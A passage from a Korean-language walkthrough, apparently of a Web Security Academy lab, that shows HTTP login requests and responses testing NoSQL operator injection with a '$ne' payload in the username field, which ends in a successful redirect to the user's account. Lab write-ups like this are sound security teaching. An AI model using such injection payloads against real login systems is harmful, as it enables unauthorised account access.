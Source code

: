 ```
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":{"$ne":"invalid"},"password":{"peter"}}
```

"Invalid JSON" 응답이 되돌아 온다.

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
Set-Cookie: session=Hz5F8NXpCBjAMSDJztK6v8ZfKtgiqjxb; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Invalid JSON"
```

3. 몇 번 더 테스트를 해본다. password에는 {"peter"}와 같은식으로 지정을 못한다는 것을 알게 되었다. 다음과 같은 요청은 사용가능했다. 이것으로 오퍼레이터 인젝션이 가능한 것을 알게 되었다. 

```http
POST /login HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=JfmsNEjgFPT37HXmriKAf7uyEwrnvwiK
Content-Length: 40
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0ac900fe040e691d83b3647700400094.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":{"$ne":"invalid"},"password":"peter"}
```

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=iJAFEfcIU6FKUwvpwKhrCsluEh0p5IlK; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```
